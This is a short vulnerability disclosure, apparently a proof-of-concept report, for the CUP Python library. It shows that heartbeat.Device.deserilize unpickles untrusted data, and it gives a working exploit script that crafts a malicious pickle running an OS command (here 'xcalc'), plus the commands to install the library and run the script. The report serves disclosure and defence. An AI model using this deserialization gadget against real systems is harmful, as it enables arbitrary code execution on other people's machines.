 # Description
CUP, common useful python-lib. (Currently, Most popular python lib in baidu) 
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install cup')
from cup.services import heartbeat
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
heartbeat.Device.deserilize(dumps,dumps)
```
* `pip3 install cup`
* `python3 exploit.py`
